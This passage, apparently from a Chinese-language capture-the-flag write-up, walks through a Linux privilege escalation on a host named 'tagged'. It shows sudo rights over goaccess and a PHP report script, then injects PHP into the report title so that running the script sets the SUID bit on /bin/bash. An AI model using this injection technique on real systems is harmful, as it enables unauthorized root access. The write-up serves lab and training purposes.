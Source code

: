 ```bash
Examples can be found by running `man goaccess`.
For more details visit: http://goaccess.io
GoAccess Copyright (C) 2009-2017 by Gerardo Orellana
```

尝试一下：

```bash
shyla@tagged:/tmp$ touch exp.log
touch exp.log
touch exp.log
shyla@tagged:/tmp$ sudo -l
sudo -l
sudo -l
Matching Defaults entries for shyla on tagged:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User shyla may run the following commands on tagged:
    (uma) NOPASSWD: /usr/bin/goaccess
    (ALL) NOPASSWD: /usr/bin/php /var/www/html/report.php
shyla@tagged:/tmp$ sudo -u uma /usr/bin/goaccess -f exp.log -o /var/www/html/report.html
sudo -u uma /usr/bin/goaccess -f exp.log -o /var/www/html/report.html
<in/goaccess -f exp.log -o /var/www/html/report.html

shyla@tagged:/tmp$ head /var/www/html/report.php   
head /var/www/html/report.php
head /var/www/html/report.php
<!DOCTYPE html><html lang='es'><head><meta charset='UTF-8'><meta name='referrer' content='no-referrer'><meta http-equiv='X-UA-Compatible' content='IE=edge'><meta name='google' content='notranslate'><meta name='viewport' content='width=device-width, initial-scale=1'><meta name='robots' content='noindex, nofollow'><link rel='icon' href='data:image/x-icon;base64,AAABAAEAEBAQAAEABAAoAQAAFgAAACgAAAAQAAAAIAAAAAEABAAAAAAAgAAAAAAAAAAAAAAAEAAAAAAAAADGxsYAWFhYABwcHABfAP8A/9dfAADXrwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIiIiIiIiIiIjMlUkQgAiIiIiIiIiIiIiIzJVJEIAAAIiIiIiIiIiIiMyVSRCAAIiIiIiIiIiIiIRERERERERERERERERERERIiIiIiIiIiIgACVVUiIiIiIiIiIiIiIiIAAlVVIiIiIiIiIiIiIiIhEREREREREREREREREREREAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' type='image/x-icon' /><title>Estadisticas&nbsp;de&nbsp;Servidor</title><style>@font-face {font-family: 'fa';src: url(data:application/font-woff;charset=utf-8;base64,d09GRgABAAAAAC2sAAsAAAAALWAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAABPUy8yAAABCAAAAGAAAABgDxIPHGNtYXAAAAFoAAABbAAAAWzzYPN8Z2FzcAAAAtQAAAAIAAAACAAAABBnbHlmAAAC3AAAJ7QAACe0PqRPf2hlYWQAACqQAAAANgAAADYSBhrHaGhlYQAAKsgAAAAkAAAAJAhUBIZobXR4AAAq7AAAAMwAAADMpCoCC2xvY2EAACu4AAAAaAAAAGjyrvuebWF4cAAALCAAAAAgAAAAIAA+AVduYW1lAAAsQAAAAUoAAAFKIhW
```

复制下来查看一下是啥：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729315.png" alt="image-20240413172835251" style="zoom:50%;" />

是他生成的日志文档！尝试利用一下：

```bash
sudo -u uma /usr/bin/goaccess -f exp.log -o /var/www/html/report.html --html-custom-js=exp.js
sudo /usr/bin/php /var/www/html/report.php
# 失败
sudo -u uma /usr/bin/goaccess -f exp.log -o /var/www/html/report.html --html-report-title="<?php system('chmod +s /bin/bash');?>"
sudo /usr/bin/php /var/www/html/report.php
# 成功
```
